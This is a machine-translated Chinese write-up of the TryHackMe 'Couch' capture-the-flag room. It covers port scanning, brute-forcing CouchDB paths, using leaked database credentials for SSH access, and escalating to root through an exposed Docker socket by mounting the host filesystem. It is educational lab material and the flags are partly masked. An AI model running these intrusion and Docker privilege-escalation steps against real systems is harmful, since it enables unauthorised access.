




# TryHackMe 报道—沙发

> 原文：<https://infosecwriteups.com/tryhackme-writeup-couch-a82d46bff231?source=collection_archive---------2----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这里是通过这个**沙发**挑战的记录和指南。这个 CTF 房间是由 CTF 情人为 CTF 情人设计的。


**房间**:[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)
**级别**:简单(初学者容易)

**任务**:在这个半引导的挑战中，黑进一个易受攻击的数据库服务器，该服务器以基于 JSON 的文档格式收集和存储数据。

# 我们开始吧

像往常一样，启动机器并在浏览器中打开 IP，但看起来端口 80 不可用

让我们运行端口扫描

```
# nmap -A -T4 -sS -sV -p- 10.10.X.X
...
...
PORT     STATE SERVICE VERSION
**22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)**
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
**5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)**
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

2 个端口打开(22 和 5984)。5984 指的是 [Apache CouchDB](http://couchdb.apache.org/) 。打开 10.10.x.x:5984 显示

```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

让我们先跑步，然后我们来回答问题

```
> feroxbuster --url http://10.10.X.X:5984/ -w ~/wordlists/dirb/big.txt -t 60 -C 404,403200        1l       80w     4808c [http://10.10.136.186:5984/_config](http://10.10.136.186:5984/_config)
200       12l      166w        0c [http://10.10.136.186:5984/_log](http://10.10.136.186:5984/_log)
405        1l        3w       60c [http://10.10.136.186:5984/_plugins](http://10.10.136.186:5984/_plugins)
200        1l      156w     4627c [http://10.10.136.186:5984/_stats](http://10.10.136.186:5984/_stats)
301        0l        0w        0c [http://10.10.136.186:5984/_utils](http://10.10.136.186:5984/_utils)
200        1l        1w      230c [http://10.10.136.186:5984/_users](http://10.10.136.186:5984/_users)
.....
.....
```

有一些可用的路径可以被访问，除了`_utils`路径外，大部分都是 JSON 输出。没关系，让我们先把问题过一遍

## 扫描机器。开放了多少个端口？

发现有 2 个端口打开(22 和 5984)

## 服务器上安装的是什么数据库管理系统？

安装的数据库管理系统是 [Apache CouchDB](http://couchdb.apache.org/)

## 数据库管理系统运行在哪个端口上？

couchDB = 5984 的端口

## 服务器上安装的管理系统是什么版本？

正如 JSON 字符串中提到的，版本是 1.6.1

## 这个数据库管理系统的 web 管理工具的路径是什么？

基于 feroxbuster 结果，`***_utils***`是正确路径



## 在数据库管理系统的 web 浏览器中列出所有数据库的路径是什么？

参考 couchDB 文档，其明确表示 ***_all_dbs*** 路径



## web 管理工具中有哪些凭据？

浏览所有可用的可点击项目，并在“秘密”数据库中找到用户凭证



## 危及机器安全并找到 user.txt

因为没有表单登录或任何页面来放置凭证，所以可能是 SSH 登录，因为端口 22 是打开的

```
**> ssh atena@10.10.X.X** The authenticity of host '10.10.X.X (10.10.X.X)' can't be established.
ECDSA key fingerprint is SHA256:TtfUUNS6Ivob4iQ7X414863lCCc1q2YyzzycIkRTZ3k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.X.X' (ECDSA) to the list of known hosts.
**atena@10.10.X.'s password:**Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
* Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
* Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1**atena@ubuntu**:**~**$
```

现在使用 atena 用户成功进入 Ubuntu 服务器。我们来找 user.txt。

```
> cat users.txt
THM{1ns3cure_XXXXXX}
```

真快。LOL。最后，我们来根！

## 提升权限并获取 root.txt

```
**atena@ubuntu**:**~**$ sudo -l
[sudo] password for atena:
Sorry, user atena may not run sudo on ubuntu.
```

好吧~~最容易的部分被屏蔽了。检查所有正在运行的 crontab，但不检查任何一个。让我们看看历史吧，

```
cat ~/.bash_history
```



该主机中正在运行 docker。让我们运行码头

```
**> docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine**
/ # id
**uid=0(root)** gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

好..这是根..所以我们可以在这里枚举文件，

```
> find . -name root.txt
./mnt/root/root.txt> cat mnt/root/root.txt
**THM{RCE_us1ng_XXXXXXXXXXX}**
```

这是 CTF 有史以来最快的一次。顺便说一句，我真的很喜欢 CTF..

感谢您的阅读，让我们来看看另一篇文章。🤘